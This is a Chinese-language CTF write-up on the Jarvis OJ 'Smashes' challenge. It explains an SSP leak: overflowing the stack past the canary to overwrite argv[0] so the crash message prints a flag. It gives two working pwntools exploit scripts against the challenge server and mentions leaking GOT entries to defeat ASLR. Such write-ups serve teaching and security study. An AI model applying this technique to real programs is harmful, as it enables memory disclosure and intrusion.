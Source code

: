 ```yaml
---
title: Jarvis OJ - Smashes の Write-Up
date: 2020-08-06 11:59:32
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- Stack
---
```

## 前言

&emsp;&emsp;Smashes这道题算是一类题型的典型代表，第一次和Canary交手，还好题目比较简单。

<!-- more -->

## Step 1

&emsp;&emsp;首先运行程序：

![](/img/Smashes/Smashes1.png)

&emsp;&emsp;检查一下保护措施：

![](/img/Smashes/Smashes2.png)

&emsp;&emsp;可以看到保护措施还是比较完备的，开启了DEP、Canary和FORTIFY保护。

## Step 2

&emsp;&emsp;将程序丢到hopper中，发现了一个关键的主函数：

![](/img/Smashes/Smashes3.png)

&emsp;&emsp;  可以看到输入name的时候总体的stack大小为296也就是0x128，但是在rbx会放置Canary，大小为0x20。也就是说当我们输入的字符超过0x108就会覆盖Canary值，然后程序就会报错。如下图所示：

![](/img/Smashes/Smashes4.png)

&emsp;&emsp; 而在“Please overwrite the flag: ”后的输入，程序通过_IO_getc(*stdin)接收。但是没有设置范围，只有当遇到‘\n’的时候才会退出循环，继续往下运行。

&emsp;&emsp;程序存在Canary保护，所以常规的栈溢出无法实现。经过大佬提点，可以通过故意触发Canary来实现SSP（Stack Smashing Protector）Leak。

## Step 3

&emsp;&emsp;首先还是要了解一下Stack Smash。当程序有了Canary保护之后，如果我们尝试缓冲区溢出，那么输入的数据会首先覆盖EBP上面的Canary值。而程序运行的时候会将这个值与原来的Canary值做比较，发现不一样就会报错。通常来说不太会注意报错信息，但是Stack Smash方法就是利用打印的报错信息的程序来得到我们想要的内容。看下程序中检查Canary的部分：

![](/img/Smashes/Smashes5.png)

&emsp;&emsp;rax中存放的是程序运行时Canary的值，比较不通过时会调用__stack_chk_fail()函数打印报错信息。找一下__stack_chk_fail()函数的源码：

```C#
void 
__attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
    __fortify_fail ("stack smashing detected"); 
}
```

&emsp;&emsp;再继续看下__fortify_fail()函数：

```C#
void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

&emsp;&emsp;__stack_chk_fail()函数中调用了__fortify_fail()函数，而在__fortify_fail()函数中调用__libc_message()函数输出了msg和__libc_argv[0]。msg就是"stack smashing detected"，__libc_argv[0]其实是argv[0]，也就是程序名。

&emsp;&emsp;在程序执行的时候，argv[0]会放在栈中，利用栈溢出可以将这个值覆盖为我们想要的值。比如某个函数的got表中的值，这样在执行__stack_chk_fail()函数的时候。利用输出报错信息就可以输出想要的got表信息，再加上libc文件偏移就可以获得libc加载的基地址。之后就可以通过基地址进一步利用，获得栈地址及栈中的重要信息。

&emsp;&emsp; 扯远了，这道题里我们想的肯定的直接覆盖为flag的地址，首先来了解一下这个程序里栈的布局：

![](/img/Smashes/Smashes6.png)

&emsp;&emsp;所以这里有种简单的方法，只要我们能够输入足够长的字符串覆盖掉argv[0]，就可以在触发Canary保护的同时输出flag。

&emsp;&emsp;最后一个问题，flag地址在哪里。在hopper中我们分明看到了两个flag地址loc_40084e和loc_400860（在IDA中居然只有一个，以往hopper的伪代码可读性令人头大，这次居然意料之外的压制了IDA），loc_40084e中指向byte [rbx+aPctfheresTheFl]，而loc_400860就指向aPctfheresTheFl：

![](/img/Smashes/Smashes7.png)

&emsp;&emsp;但是我们用0x600d20这个地址无法获得flag，这里会被覆盖，所以需要利用byte [rbx+aPctfheresTheFl]位置的flag地址。把程序断在loc_400860函数，然后在程序中寻找‘PCTF’的字样：

![](/img/Smashes/Smashes8.png)

&emsp;&emsp;我们再看一下0x600d20位置的flag：

![](/img/Smashes/Smashes9.png)

&emsp;&emsp;对照上面我们的输入：

![](/img/Smashes/Smashes10.png)

&emsp;&emsp;发现这个位置的flag会被我们的输入所覆盖，所以选择0x400d20位置的flag。

&emsp;&emsp;于是给出EXP：

```Python
from pwn import *

sh = remote('pwn.jarvisoj.com', 9877)
  
flag_addr = 0x400d20
payload = p64(flag_addr) * 200
  
sh.recv()
sh.sendline(payload)
sh.interactive()
sh.close()
```

&emsp;&emsp;EXP脚本运行结果图：

![](/img/Smashes/Smashes11.png)

## Step 4

&emsp;&emsp;虽然解决了问题，但是觉得这样很是不爽。于是继续找一下具体的offset值。

&emsp;&emsp;把程序断在主函数sub_4007e0，可以看到程序名字也就是argv[0]已经到了栈中：

![](/img/Smashes/Smashes12.png)

&emsp;&emsp;然后再在程序输入名字的位置下个断点：

![](/img/Smashes/Smashes13.png)

&emsp;&emsp;可以看到调用__IO_gets接收输入，接收完之后将程序断下来：

![](/img/Smashes/Smashes14.png)

&emsp;&emsp; 所以输入地址与argv[0]的距离为：0x7ffd531186d8 - 0x7ffd531184c0 = 0x218，也就是需要padding的部分。

&emsp;&emsp;最终第二种方法的EXP脚本：

```Python
from pwn import *

sh = remote('pwn.jarvisoj.com', 9877)
  
flag_addr = 0x400d20
payload = 'a' * 0x218 + p64(flag_addr)
  
sh.recv()
sh.sendline(payload)
sh.interactive()
sh.close()
```

&emsp;&emsp;运行结果图：

![](/img/Smashes/Smashes15.png)
